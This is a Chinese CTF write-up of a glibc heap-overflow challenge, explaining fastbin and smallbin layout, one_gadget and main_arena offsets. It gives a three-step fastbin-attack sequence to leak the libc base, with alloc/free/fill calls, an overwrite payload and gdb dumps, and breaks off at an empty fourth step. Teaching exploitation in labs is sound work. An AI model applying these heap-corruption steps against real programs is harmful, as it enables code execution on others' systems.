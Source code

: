 # 零碎的基础知识：<br>
1.fastbin和smallbin在main_arena中链表结构是不一样的。fastbin是单向链表，由fastbin指向chunk,但是smallbin/unsortbin/largebin都是双向链表，这样在free掉
上面所说的三个bin的时候，就会在fd以及bk上保存着main_arena+xx偏移的相应的基址，所以可以通过某种方式在free掉small/lagre/unsortbin之后将他们的fd或bk读出来<br>

2.one_gadget(用来找execve("/bin/sh")的)<br>
constraints是约束条件，在跳转到one_gadget之前必须满足的条件
![one_gadget](img/one_gadget.PNG)<br>

3.main_arean与libc基址的关系<br>
main_arena是heap各种bin的结构体，他的偏移量可以在libc.so中malloc_trim()这个函数中找到,如图中为0x3c4b20<br>
![malloc_trim](img/malloc_trim.PNG)<br>

# 题目分析：<br>
![](img/menu.PNG)
漏洞点在allocate的时候申请一个大小，但是在fill的时候可以无视这个大小去填充，所以这里存在堆溢出<br>
### 1.fastbin attak：<br>
核心思想是通过smallbin的fd或bk泄露main_arena的地址<br>
两种leak libc的方式:<br>
1> 通过修改smallbin的size,使得可以用其他bin如fastbin指向一个smallbin，之后再将smallbin的size修改回来，free掉smallbin,然后通过指向smallbin的fastbin将smallbin的fd和bk读出来<br>
2> 由于fastbin和smallbin在申请的时候堆地址的位置相邻，所以可以通过修改fastbin的size。让临近smallbin的fastbin的size，设置成刚好能够读取到smallbin的fd和bk的大小，然后free smallbin，通过相邻的fastbin来读取smallbin的fd和bk。<br>

具体实现：<br>
1>fastbin指向smallbin泄露libc<br>
第一步先申请以下五个chunk,其中0-3是fastbin，4是smallbin
```
alloc(0x10) #0
alloc(0x10) #1
alloc(0x10) #2
alloc(0x10) #3
alloc(0x80) #4

gdb-peda$ x /64wx 0x555555757060
0x555555757060:	0xf7ffd9d8	0x00007fff	0x00000021	0x00000000      -->chunk0(fastbin, in use)
0x555555757070:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757080:	0x00000000	0x00000000	0x00000021	0x00000000      -->chunk1(fastbin, in use)
0x555555757090:	0x00000000	0x00000000	0x00000000	0x00000000
0x5555557570a0:	0x00000000	0x00000000	0x00000021	0x00000000      -->chunk2(fastbin, in use)
0x5555557570b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x5555557570c0:	0x00000000	0x00000000	0x00000021	0x00000000      -->chunk3(fastbin, in use)
0x5555557570d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x5555557570e0:	0x00000000	0x00000000	0x00000091	0x00000000      -->chunk4(smallbin, in use)
0x5555557570f0:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757100:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757110:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757120:	0x00000000	0x00000000	0x00000000	0x00000000
```

第二步，将chunk1和chunk2链在fastbin链表上，此时： fastbin->chunk2,chunk2->fd->chunk1
```
#为了将 chunk4(smallbin) 放在fastbin的链表上 
free(1)
free(2)

gdb-peda$ x /64wx 0x555555757060
0x555555757060:	0xf7ffd9d8	0x00007fff	0x00000021	0x00000000      -->chunk0(fastbin, in use)
0x555555757070:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757080:	0x00000000	0x00000000	0x00000021	0x00000000      -->chunk1(fastbin, free)
0x555555757090:	0x00000000	0x00000000	0x00000000	0x00000000
0x5555557570a0:	0x00000000	0x00000000	0x00000021	0x00000000      -->chunk2(fastbin, free)
0x5555557570b0:	0x55757080	0x00005555	0x00000000	0x00000000
0x5555557570c0:	0x00000000	0x00000000	0x00000021	0x00000000      -->chunk3(fastbin, in use)
0x5555557570d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x5555557570e0:	0x00000000	0x00000000	0x00000091	0x00000000      -->chunk4(smallbin, in use)
0x5555557570f0:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757100:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757110:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757120:	0x00000000	0x00000000	0x00000000	0x00000000
```

第三步，破坏fastbin的链表<br>
原本:fastbin->chunk2, chunk2->fd->chunk1<br>
破坏后:fastbin->chunk2, chunk2->fd->chunk4<br>
```
payload ='A'*0x10 #the data of chunk0
payload+=p64(0) + p64(0x21) + 'A'*0x10 #chunk1
payload+=p64(0) + p64(0x21) + p8(0xe0)  #the header of chunk2
fill(0,payload) #使用chunk0去overwrite chunk2->fd,让chunk2->fd由chunk1改变成chunk4(smallbin) 

gdb-peda$ x /64wx 0x555555757060
0x555555757060:	0xf7ffd9d8	0x00007fff	0x00000021	0x00000000      -->chunk0(fastbin, in use)
0x555555757070:	0x41414141	0x41414141	0x41414141	0x41414141
0x555555757080:	0x00000000	0x00000000	0x00000021	0x00000000      -->chunk1(fastbin, free)
0x555555757090:	0x41414141	0x41414141	0x41414141	0x41414141
0x5555557570a0:	0x00000000	0x00000000	0x00000021	0x00000000      -->chunk2(fastbin, free)
0x5555557570b0:	0x557570e0	0x00005555	0x00000000	0x00000000
0x5555557570c0:	0x00000000	0x00000000	0x00000021	0x00000000      -->chunk3(fastbin, in use)
0x5555557570d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x5555557570e0:	0x00000000	0x00000000	0x00000091	0x00000000      -->chunk4(smallbin, in use)
0x5555557570f0:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757100:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757110:	0x00000000	0x00000000	0x00000000	0x00000000
```

第四步，

















